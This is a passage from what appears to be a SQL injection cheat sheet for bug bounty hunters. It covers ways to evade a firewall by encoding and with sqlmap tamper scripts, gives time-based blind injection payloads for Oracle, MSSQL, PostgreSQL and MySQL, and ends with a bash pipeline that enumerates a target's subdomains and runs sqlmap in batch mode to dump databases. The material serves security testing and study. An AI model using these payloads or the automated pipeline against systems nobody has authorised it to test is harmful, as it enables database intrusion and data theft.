     3. URL encoding

    ```
    for example :
    / URL encoded to %2f
    * URL encoded to %2a
    
    Can also use double encoding, if single encoding doesn't works. Use hex encoding if the rest doesn't work.
    ```

    4. Changing Cases (uppercase/lowercase)

    For more step wise detailed methods, go through the link below.

    https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

    5. Use SQLMAP tamper scripts. It helps bypass WAF/IDS/IPS.

        - Use Atlas. It helps suggesting tamper scripts for SQLMAP. https://github.com/m4ll0k/Atlas
        - JHaddix post on SQLMAP tamper scripts https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423

        

8. Time Delays :

    You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

    | Oracle     | `dbms_pipe.receive_message(('a'),10)` |
    | :--------- | ------------------------------------- |
    | Microsoft  | `WAITFOR DELAY '0:0:10'`              |
    | PostgreSQL | `SELECT pg_sleep(10)`                 |
    | MySQL      | `SELECT sleep(10)`                    |

9. Conditional time delays:

    You can test a single boolean condition and trigger a time delay if the condition is true.

    | Oracle     | ```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual``` |
    | :--------- | ------------------------------------------------------------ |
    | Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`            |
    | PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
    | MySQL      | `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`               |

10. TIPS:

    - **Note - you can use either a `space` or `+ `in the injections**

```bash
sublist3r -d target | tee -a domains (you can use other tools like findomain, assetfinder, etc.)
cat domains | httpx | tee -a alive
cat alive | waybackurls | tee -a urls
gf sqli urls >> sqli
sqlmap -m sqli --dbs --batch
>>use tamper scripts
```
